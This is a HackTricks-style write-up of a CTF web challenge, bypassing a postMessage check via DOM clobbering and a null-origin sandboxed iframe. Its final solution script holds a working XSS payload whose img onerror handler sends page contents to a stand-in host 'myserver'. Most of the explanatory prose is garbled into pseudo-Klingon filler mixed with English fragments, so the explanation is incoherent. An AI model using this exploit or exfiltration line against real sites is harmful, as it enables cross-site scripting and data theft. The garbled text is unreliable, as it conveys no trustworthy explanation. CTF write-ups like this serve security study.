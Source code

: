 # Bypassing SOP with Iframes - 2

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
---
**ghItlh** vaj **postmessage** **HTML** content **bI'vItlhutlh** **`innerHTML`** **ghItlh** **sanitation** (**XSS**) **bI'vItlhutlh**.

**'ej** **bypass** **check** **wa'** **`window.calc.contentWindow`** **'e'** **`undefined`** **'ej** **`e.source`** **'e'** **`null`** **bI'vItlhutlh**:

* **`window.calc.contentWindow`** **'oH** **`document.getElementById("calc")`** **'e'**. **`document.getElementById`** **'oH** **`<img name=getElementById />`** **bI'vItlhutlh** (Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- **'oH** **DOM clobbering** **attacks** **bI'vItlhutlh** **Sanitizer API** **default** **state** **ghItlh**).
* **'ach**, **`document.getElementById("calc")`** **'oH** **`<img name=getElementById /><div id=calc></div>`** **bI'vItlhutlh**. **'ej**, **`window.calc`** **'e'** **`undefined`** **bI'vItlhutlh**.
* **vaj**, **`e.source`** **'e'** **`undefined`** **'ej** **`null`** **bI'vItlhutlh** (`==` **`===`** **vItlhutlh**, **`null == undefined`** **'oH** **`True`**). **vaj** **'e'** "easy". **'ej** **iframe** **'ej** **postMessage** **bI'vItlhutlh** **'e'** **'ej** **iframe** **'e'** **'e'** **'ej** **`e.origin`** **'e'** **`null`**. **vItlhutlh** **code** **bI'vItlhutlh**:

---
```
{<iframe id="myIframe" src="https://example.com"></iframe>}
<script>
  const iframe = document.getElementById("myIframe");
  iframe.contentWindow.postMessage("Hello", "*");
  iframe.remove();
</script>
```
```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```
**Quch** **`token`** **`null`** **value** **yIqaw** **`window.token`** **`undefined`** **value** **bypass** **`second check`** **ghItlh**:

* **`token`** **value** **`null`** **postMessage** **bIjatlh** **yIqaw**.
* **`window.token`** **`getCookie`** **function** **ghItlh** **`document.cookie`** **vIlegh**. **`null`** **origin pages** **`document.cookie`** **ghItlh** **`error`** **tIq**. **`window.token`** **`undefined`** **value** **yIqaw**.

[**@terjanq**](https://twitter.com/terjanq) **[**ghItlh**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html)** **final solution** **yIqaw**.
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');

function start(){
var ifr = document.createElement('iframe');
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = 'allow-scripts allow-popups';
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr);

function hack(){
var win = open('https://obligatory-calc.ctf.sekai.team');
setTimeout(()=>{
parent.postMessage('remove', '*');
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
},1000);
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
}
setTimeout(start, 1000);
</script>
</body>
</html>
```
<details>

<summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* **qaStaHvIS** **cybersecurity company** vItlhutlh? **HackTricks** **company** **advertised** **want**? **PEASS latest version** **download** **HackTricks PDF** **want**? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) **check**!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) **Discover**, **exclusive NFTs** **collection** **our**
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) **Get**
* **Join** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) **telegram group** **or** **follow** **me** **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share** **hacking tricks** **hacktricks repo** **PRs** **submitting** **by** **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
